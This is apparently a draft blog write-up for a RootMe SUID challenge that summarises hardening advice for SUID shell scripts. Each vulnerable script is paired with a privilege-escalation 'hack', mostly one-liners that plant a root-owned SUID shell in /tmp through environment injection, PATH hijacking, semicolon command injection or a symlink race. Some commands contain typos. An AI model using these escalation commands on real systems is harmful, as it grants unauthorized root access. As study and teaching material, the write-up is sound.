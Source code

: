 +++
categories = ["Development", "Programming", "Hacking"]
date = "2015-11-20T18:50:35+01:00"
description = ""
draft = true
image = "/img/about-bg.jpg"
tags = ["programming", "rootme", "challenges", "hack", "crack"]
title = "RootMe Challenge: ELF32 System I"

+++

# ELF32 - System 1 - SUID scripts vulnerabilities

# Resources

## [Danger of SUID Shell Scripts](http://repository.root-me.org/Administration/Unix/EN%20-%20Dangers%20of%20SUID%20Shell%20Scripts.pdf)

## 1. Never use C-shell for SUID scipts

- Script:
```
$ ls change-pass
-rwsr-x---  1 root helpdesk 37 Feb 26 16:35 change-pass

$ cat change-pass
#!/bin/csh -b
set user = $1
passwd $user
```

- Hack:
```
$ env TERM='`cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755/tmp/sh`' change-pass
```

## 2. Always manually set the PATH and use absolute path names.

- Script:
```
$ cat change-pass
#!/bin/ksh
user=$1
passwd $user
```

- Hack:
```
$ export PATH='/tmp'
$ echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755/tmp/sh" > /tmp/passwd
$ ./change-pass
```

## 3. Understand how the programs in your script work, escpecially how they handle arguments

- Script:
```
$ cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
rm /tmp/.user
echo "$user" > /tmp/.user
isroot='/usr/bin/grep -c root /tmp/.user'
[ "$isroot" -gt 0 ] && echo "You Can't change root's password!" && exit
/usr/bin/passwd $user
```

- Hack:

If the user runs the program and doesn't specify an argument, the program will run the passwd command without any arguments. It default so to the current user, the problem is that in a root-owned SUID script, the current user is always root.

- Script:
```
$ cat change-pass
$!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
[ -z $user ] && echo "Usage: change-pass username" && exit
rm /tmp/.user
echo "$user" > /tmp/.user
isroot='/usr/bin/grep -c root /tmp/.user'
[ "$isroot" -gt 0] && echo "You Can't change root's password!" && exit
/usr/bin/passwd $user
```

- Hack:

A hacker could write a program that will automatically watch for activity and replace the /tmp/.user file between the ```rm``` and ```echo``` by an empty one. It could not be overwritten and so run as root.

## 4. Don't use temporary files, don't put them in a publicity writable area

- Script:
```
$ cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=$1
[ -z $user ] && echo "Usage: change-pass username" && exit
[ "$user" = root ] && echo "You can't change root's password!" && exit
/usr/bin/passwd $user
```

- Hack (semi-colon trick):
```
$ change-pass "user;cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755 /tmp/sh"
```

## 5. Distrust and check all user input, and strip out any meta-characters

- Script:
```
$ cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
user=${1##*[ \\$/;()|\>\<&    ]}
[ -z $user ] && echo "Usage: change-pass username" && exit
[ "$user" = root ] && "You can't change root's password!" && exit
/usr/bin/passwd $user
```

- Hack (Internal Filed Separator (IFS) vulnerability):
```
$ export IFS='/'
```

## 6. Always manually set IFS

- Script:
```
$ cat change-pass
#!/bin/ksh
PATH='/bin:/usr/bin'
IFS=' '
user=${1##*[ \\$/;()|\>\<&    ]}
[ -z $user ] && echo "Usage: change-pass username" && exit
[ "$user" = root ] && "You can't change root's password!" && exit
/usr/bin/passwd $user
```

- Hack:
```
// Create a link to the SUID script:
$ cd /tmp
ln -s change-pass rootme

// Running the link, quickly replace it with another file:
$ ./rootmer &
& rm rootme && \
  echo "cp /bin/sh /tmp/sh;chown root /tmp/sh;chmod 4755 /tmp/sh" \
    >> rootme
```

## 7. Don't use SUID shell scripts

There are the more secure options (even more):
  - a wrapper program written in C
  - a Perl script
  - a program like sudo


## [SUID Privileged Programs](http://repository.root-me.org/Administration/Unix/EN%20-%20SUID%20Privileged%20Programs.pdf)

## 1. 
